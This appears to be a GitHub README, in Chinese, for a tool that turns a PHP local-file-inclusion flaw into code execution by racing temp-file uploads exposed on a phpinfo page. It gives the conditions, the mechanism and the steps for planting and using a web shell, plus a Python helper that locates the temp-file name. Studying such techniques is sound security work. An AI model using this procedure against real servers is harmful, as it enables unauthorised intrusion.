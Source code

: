 # LFI-With-PHPInfo-Assitance

- 利用条件
    - 存在lfi漏洞
    - 存在可访问phpinfo网页

- 利用原理
    - php会把post请求, 存储在临时文件中, 并在请求结束后删除临时文件
    - phpinfo中会显示_FILE变量, 其中会显示临时文件路径
    - 所以可以通过发送数据量大的请求, 拖延php删除临时文件的时间, 同时查看_FILE得到临时文件位置, 并使用lfi漏洞对其进行包含从而执行

- 利用步骤
    1. 发送post请求到phpinfo,  post的内容为一个创建shell文件的payload
    2. 通过有lfi漏洞的页面包含payload, payload被执行然后创建shell文件
    3. 通过lfi页面包含shell文件, 并传参, 从而进行利用

- 环境部署
    - 将lfi_phpinfo文件夹放到测试网站目录下
    - 然后修改lfi_phpinfo.py 中的参数然后执行
    
- 测试结果
    - ![](images/lfi1.jpg)

    - ![](images/lfi2.png)
- 代码中有详细注释
    ```python
    def get_offset(host, port, phpinfo_request):
        """
        获取tmp_name在phpinfo中的偏移量
        :param host: HOST
        :param port: 端口
        :param phpinfo_request: phpinfo 请求内容
        :return:
            tmp_name在phpinfo中的偏移量
        """

        phpinfo_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        phpinfo_socket.connect((host, port))
        phpinfo_socket.send(phpinfo_request.encode())
        phpinfo_response_data = ''
        while True:
            i = phpinfo_socket.recv(4096).decode()
            phpinfo_response_data += i
            if i == '':
                break

            # 检测是否是最后一个数据块
            if i.endswith('0\r\n\r\n'):
                break
        phpinfo_socket.close()
        tmp_name_index = phpinfo_response_data.find('[tmp_name] =&gt')
        if tmp_name_index == -1:
            raise ValueError('没有在phpinfo中找到tmp_name')
        print('找到了 {} 在phpinfo内容索引为{}的位置'.format(
            phpinfo_response_data[tmp_name_index:tmp_name_index+10], tmp_name_index))

        return tmp_name_index + 256
    ```
- 参考: https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf
